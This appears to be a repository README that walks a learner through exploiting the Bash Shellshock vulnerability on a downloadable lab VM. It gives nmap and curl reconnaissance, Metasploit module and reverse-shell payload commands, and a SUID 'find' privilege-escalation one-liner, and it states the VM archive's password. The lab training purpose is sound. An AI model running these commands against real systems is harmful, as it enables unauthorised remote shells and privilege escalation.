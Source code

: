 # Shellshock

This repository describes how to exploit the Bash Shellshock vulnerability. 

## Topics
- [Background](#background)
- [Use Case](#use-case)
- [Prerequisites](#prerequisites)
- [Usage](#usage)
  - [Scan the Network](#scan-the-network)
  - [Attack the Program](#attack-the-program)
  - [Create a Reverse Shell](#create-a-reverse-shell)
  - [Escalate Privileges](#escalate-privileges)
- [Resources](#resources)

## Background

Shellshock is the name of a severe GNU Bash vulnerability that was discovered in 2014. The Shellshock vulnerabililty can affect numerous systems and attack vectors. GNU Bash through version 4.3 processes trailing strings after function definitions in environment variable values. This allows attackers to execute arbitrary code by using those external variables. The Shellshock vulnerability affects multiple vectors including the mod_cgi and mod_cgid methods of the Apache HTTP server that display dynamic content on web pages and applications. The Shellshock exploit can be launched either remotely or from a local machine.

## Use Case

The Shellshock vulnerability should only be exploited in a research environment. Running the Shellshock exploit enables researches to become better acquainted with common vulnerabilities that should be remediated. Exploiting the Shellshock vulnerability in a research environment can help users become acquainted with penetration testing tools and methods.

## Prerequisites

Shellshock exploitation requires a vulnerable machine. A vulnerable Shellshock virtual machine called `shellshock_server.ova` can be [downloaded here](https://gtvault-my.sharepoint.com/:u:/g/personal/rheavican3_gatech_edu/EVihwYFaVDlChicYIgfXPHIBMLW_kOUUO8sTaJ7b8JLw2A?e=jIvhZ6). The password for `shellshock_server.ova` is `77t*#bT8sd`. The `shellshock_server.ova` virtual machine should be run in hypervisor that runs Open Virtualization Format files, such as VirtualBox.

An instance of Kali linux is required to exploit the vulnerable `shellshock_server.ova` virtual machine. The latest Kali image can be downloaded at the [official Kali download page](https://www.kali.org/get-kali/). The Kali virtual machine should be deployed on the same virtual network as `shellshock_server.ova`. 

## Usage

Perform the following tasks to exploit the Shellshock vulnerability in `shellshock_server.ova`:

### Scan the Network

The IP address of the vulnerable virtual machine must be identified to exploit the Shellshock vulnerability. Use `ifconfig -a` in a Kali terminal to identify the virtual network.

Scan the virtual network to identify the vulnerable server. Kali linux includes the Nmap open-source network discovery tool. Run the following command in a Kali terminal to scan the virtual network for hosts: Replace `$Subnet` with the network acquired through `ifconfig -a`.

```
nmap scan $Subnet
```

Run the following command in a Kali terminal to identify all open ports of the vulnerable host. Replace `$IPAddress` with the host IP address found in the previous Nmap scan:

```
nmap -p- $IPAddress
```

Use CURL to connect to any open HTTP ports identified by Nmap to determine if they are vulnerable to Shellshock. Replace `$IPAddress` and `$Port` with the IP address and open HTTP port identified by Nmap:

```
curl http:// <$IPAddress>:<$Port>/cgi-bin/shellshock.cgi
```

The server is vulnerable to Shellshock if the content of the URL is returned in the terminal. The returned URL will be used to attack the vulnerable CGI program.

### Attack the Program

Use the Metasploit framework included in Kali to exploit the vulnerable Shellshock server identifed using Nmap. Type `msfconsole` in a Kali terminal to launch the Metasploit framework.

Metasploit's primary components consist of exploit modules and exploit payloads. Metasploit modules are written to exploit specific vulnerabilities. Metasploit payloads are the packets that are sent within the exploit. 

Use the Apache mod_cgi Bash Environment Variable Code Injection Metasploit module to exploit the vulnerable server identified in Nmap. This module sets the `HTTP_User_Agent` environment variable to a malicious function definition to exploit the mod_cgi script on the Apache web server. Run the following commands in metasploit to run the module:

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Specify the remote host to be exploited in the Metasploit module by running the following command. Replace `#IPAddress` with the IP address of the vulnerable server identified using Nmap.

```
set rhost #IPAddress
```

Specify the URL of the vulnerable target CGI program with the following command:

```
set targeturi /cgi-bin/shellshock.cgi
```

### Create a Reverse Shell

Now the payload needs to be used to exploit the vulnerable Shellshock server. Use `show payloads` to show the possible payloads for the current mod_cgi bash injnection module. Use the `linux/x86/shell/reverse_tcp` reverse shell exploit by running the following commands:

```
set payload linux/x86/shell/reverse_tcp
check
exploit
```

This will create a reverse shell session on the vulnerable server. 

### Escalate Privileges

The `shellshock_server.ova` virtual machine is vulnerable to privilege escalation in addition to its Shellshock vulnerability. Use `/bin/bash -i` to create an interactive Bash session on the reverse shell session. Then use the `whoami` command to identify the user account running the reverse shell session. `whoami` will show the user running the reverse shell as `www-data`.

Navigate to `/usr/bin` and run `ls -la` to identify any programs that use permissions for users other than `www-data`. `ls -la` will show that the `find` program has user privileges for the user `shellshock_server`. Launch a Bash session with the privileges of the `shellshock_server` user by running the following command:

```
find /usr/bin/ -name find -exec /bin/bash -ip \;
```

Use the `whoami` command to confirm that privileges for the Bash session have been escalated to the user `shellshock_server`

## Resources
- [Shellshock CVE](https://nvd.nist.gov/vuln/detail/cve-2014-6271)
- [Shellshock Exploitation](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/)
- [Metasploit Shellshock Exploitation](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [Metasploit Exploit for Apache mod_cgi Bash Environment Variable Code Injection](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec/)
- [Shell Spawning](https://rcenetsec.com/shell-spawning/)
- [Privilege Escalation](https://tbhaxor.com/exploiting-suid-binaries-to-get-root-user-shell/)
